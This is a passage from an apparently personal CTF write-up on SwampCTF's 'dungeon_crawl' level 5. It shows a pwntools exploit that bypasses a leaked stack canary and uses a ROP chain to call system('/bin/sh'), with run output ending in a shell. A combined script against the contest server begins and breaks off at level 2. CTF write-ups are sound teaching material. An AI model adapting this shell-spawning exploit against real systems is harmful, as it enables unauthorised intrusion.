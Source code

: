 ```
exploit = ""
exploit += "A" * 0x18
exploit += p64(stack_can)
exploit += "B" * 0x8
exploit += p64(poprdi_ret_addr)
exploit += p64(binsh_addr)
exploit += p64(system_addr)

r.recvuntil('[3 format]: ')
r.sendline('1')
r.recvuntil('extra challenge :)\n')
r.sendline(exploit)
r.interactive()
```

It works perfectly.
```
solomonbstoner@swjsUbuntu:~/Desktop/CTF unsorted and disorganised/SwampCTF/dungeon_crawl$ python input\ level5.py 
[+] Starting local process './level5': pid 7438
[*] '/home/solomonbstoner/Desktop/CTF unsorted and disorganised/SwampCTF/dungeon_crawl/level5'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Stack canary : 0x9e099b0c168d7300
puts_got       = 0x601210
puts_offset    = 0x6f690
puts_addr      = 0x7f4381112690
base_addr_libc = 0x7f43810a3000
system_addr    = 0x7f43810e8390
binsh_addr     = 0x7f438122fd57
[*] Switching to interactive mode
$ whoami
solomonbstoner
```

### Putting them all together
Now that we have managed to exploit all 5 levels individually, we need a Python script to exploit all of them in the Swampctf server.
```
from pwn import *

r = remote('chal1.swampctf.com', 1337)
libc = ELF('libc.so.6')

# Level 1

level1_exploit = '252534'
r.recvuntil('Access token please: ')
r.sendline(level1_exploit)
log.info('Passed Level 1.')

# Level 2

```